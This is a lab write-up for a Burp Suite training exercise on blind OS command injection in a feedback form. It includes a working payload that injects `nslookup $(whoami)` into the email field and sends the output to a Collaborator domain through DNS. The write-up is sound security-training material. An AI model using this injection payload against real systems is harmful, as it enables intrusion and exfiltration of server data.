








Write-up by wook413

# Lab: Blind OS command injection with out-of-band data exfiltration

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

---

I navigated directly to the feedback page by clicking the **"Submit feedback"** button.

I filled out the feedback form with arbitrary information and submitted it.

I intercepted the POST request that was generated and reviewed it in Burp Suite.

I navigated to the Collaborator tab and copied the unique Burp Collaborator payload domain.

Since the `email` parameter was vulnerable in the previous labs, I decided to test that parameter first. I modified the parameter using the following payload: `wook@wook.com||nslookup $(whoami).wbb0k2m2vced2jt7fliigh5zaqgh48sx.oastify.com||`

The reason this payload works is that the vulnerable server executes the `whoami` command first and replaces `$(whoami)` with its output. The result is then inserted into a DNS query as a subdomain. Burp Collaborator receives this DNS request because it controls the parent domain and uses wildcard DNS to capture requests to any subdomain.

After sending the request, I returned to the Collaborator tab and clicked **"Poll now"**. The received DNS interaction displayed the command output in the subdomain: `peter-Azn0p0`.

I returned to the web application, clicked **"Submit solution"**, and entered the username I retrieved from the Collaborator interaction.

### Solved!

